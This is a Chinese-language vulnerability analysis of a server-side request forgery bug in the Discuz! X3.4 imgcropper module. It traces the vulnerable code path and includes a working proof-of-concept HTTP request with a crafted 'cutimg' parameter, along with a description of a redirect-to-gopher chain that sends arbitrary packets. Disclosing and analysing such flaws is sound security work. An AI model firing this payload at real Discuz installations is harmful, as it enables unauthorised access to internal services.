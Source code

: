 Discuz! X3.4 imgcropper ssrf
============================

一、漏洞简介
------------

对 PHP、curl 版本都有特殊的要求，而且要服务端环境接受空 Host
的请求，总的来说比较鸡肋

二、漏洞影响
------------

三、复现过程
------------

`source/class/class_image.php` `image`类`init`方法：

        function init($method, $source, $target, $nosuffix = 0) {
            global $_G;

            $this->errorcode = 0;
            if(empty($source)) {
                return -2;
            }
            $parse = parse_url($source);
            if(isset($parse['host'])) {
                if(empty($target)) {
                    return -2;
                }
                $data = dfsockopen($source);
                $this->tmpfile = $source = tempnam($_G['setting']['attachdir'].'./temp/', 'tmpimg_');
                if(!$data || $source === FALSE) {
                    return -2;
                }
                file_put_contents($source, $data);
            }
            ......
      }

再找哪些地方调用了`image`类的`init`方法，发现`image`类的`Thumb`、`Cropper`、`Watermark`方法都调用了`init`。比如`Thumb`：

        function Thumb($source, $target, $thumbwidth, $thumbheight, $thumbtype = 1, $nosuffix = 0) {
            $return = $this->init('thumb', $source, $target, $nosuffix);
            ......
        }

所以再找哪些地方调用了`image`类的`Thumb`方法，最终发现：

`source/module/misc/misc_imgcropper.php` 52-57行：

        require_once libfile('class/image');
        $image = new image();
        $prefix = $_GET['picflag'] == 2 ? $_G['setting']['ftp']['attachurl'] : $_G['setting']['attachurl'];
        if(!$image->Thumb($prefix.$_GET['cutimg'], $cropfile, $picwidth, $picheight)) {
            showmessage('imagepreview_errorcode_'.$image->errorcode, null, null, array('showdialog' => true, 'closetime' => true));
        }

下断点调试发现 `$_G['setting']['ftp']['attachurl']` 的值为 `/`，而
`$_G['setting']['attachurl']` 的值是 `data/attachment/`。所以似乎
`$prefix` 为 `/` 才有 SSRF 利用的可能。

一开始构造 `cutimg=/10.0.1.1/get`，这样 `$url` 的值就为
`//10.0.1.1/get`，按道理来说这应该算是一个正常的
url，但是结果却请求失败了。

仔细跟进 `_dfsockopen` 发现，在 PHP 环境安装有 cURL 时，进入 curl
处理的代码分支，直到这里：

    curl_setopt($ch, CURLOPT_URL, $scheme.'://'.($ip ? $ip : $host).($port ? ':'.$port : '').$path);

`$scheme`、`$host`、`$port`、`$path` 都是 `parse_url` 解析 url
参数后的对应的值，而对像 `//10.0.1.1/get` 这样的 url 解析时，`$scheme`
的值是 `null`，因此最后拼接的结果是 `://10.0.1.1/get`，没有协议，curl
最后对这种url的请求会自动在前面加上 `HTTP://`，结果就变成了请求
`HTTP://://10.0.1.1/get`，这种 url 在我的环境中会导致 curl 报错。

所以我去掉了 curl 扩展，让 `_dfsockopen` 函数代码走 socket
发包的流程，踩了 `parse_url` 和 Dz
代码的一些坑点（这里就不展开了，有兴趣的同学调下代码就知道了），最后发现像这样构造可以成功：

    cutimg=/:@localhost:9090/dz-imgcropper-ssrf

poc:

    POST /misc.php?mod=imgcropper&picflag=2&cutimg=/:@localhost:9090/dz-imgcropper-ssrf HTTP/1.1
    Host: ubuntu-trusty.com
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:59.0) Gecko/20100101 Firefox/59.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Cookie: xkmD_2132_sid=E5sbVr; xkmD_2132_saltkey=m6Y8022s; xkmD_2132_lastvisit=1521612483; xkmD_2132_lastact=1521624907%09misc.php%09imgcropper; xkmD_2132_home_readfeed=1521616105; xkmD_2132_seccode=1.ecda87c571707d3f92; xkmD_2132_ulastactivity=a0f4A9CWpermv2t0GGOrf8%2BzCf6dZyAoQ3Sto7ORINqJeK4g3xcX; xkmD_2132_auth=40a4BIESn2PZVmGftNQ2%2BD1ImxpYr0HXke37YiChA2ruG6OryhLe0bUg53XKlioysCePIZGEO1jmlB1L4qbo; XG8F_2132_sid=fKyQMr; XG8F_2132_saltkey=U7lxxLwx; XG8F_2132_lastvisit=1521683793; XG8F_2132_lastact=1521699709%09index.php%09; XG8F_2132_ulastactivity=200fir8BflS1t8ODAa3R7YNsZTQ1k262ysLbc9wdHRzbPnMZ%2BOv7; XG8F_2132_auth=3711UP00sKWDx2Vo1DtO17C%2FvDfrelGOrwhtDmwu5vBjiXSHuPaFVJ%2FC%2BQi1mw4v4pJ66jx6otRFKfU03cBy; XG8F_2132_lip=172.16.99.1%2C1521688203; XG8F_2132_nofavfid=1; XG8F_2132_onlineusernum=3; XG8F_2132_sendmail=1
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 36

    imgcroppersubmit=1&formhash=f8472648

此时 url 即为`//:@localhost:9090/dz-imgcropper-ssrf`。SSRF 请求成功：

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4imgcropperssrf/media/rId24.png)

通过这种方式进行构造利用的话，不太需要额外的限制条件（只要求服务端 PHP
环境没有安装 curl 扩展）￼，但是只能发 HTTP GET
请求，并且服务端不跟随跳转。漏洞危害有限。

后来 l3m0n 师傅也独立发现了这个漏洞，并且他发现较高版本的 curl
是可以成功请求 `HTTP://:/` 的，较高版本的 curl 会将这种 url 地址解析到
127.0.0.1 的 80 端口：

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4imgcropperssrf/media/rId25.jpg)

最后他再利用之前 PHP `parse_url` 的解析 bug（
[https://bugs.php.net/bug.php?id=73192](https://link.zhihu.com/?target=https%3A//bugs.php.net/bug.php%3Fid%3D73192)
），及利用 `parse_url` 和 curl 对 url 的解析差异，成功进行 302
跳转到任意恶意地址，最后再 302 跳转到 gopher
就做到发送任意数据包。详情可以参考 l3m0n 的博客：

[Discuz x3.4前台SSRF - l3m0n -
博客园](https://link.zhihu.com/?target=https%3A//www.cnblogs.com/iamstudy/articles/discuz_x34_ssrf_1.html)

但是这种利用方式对 PHP、curl 版本都有特殊的要求，而且要服务端环境接受空
Host 的请求。总的来说，imgcropper SSRF 仍然比较鸡肋。
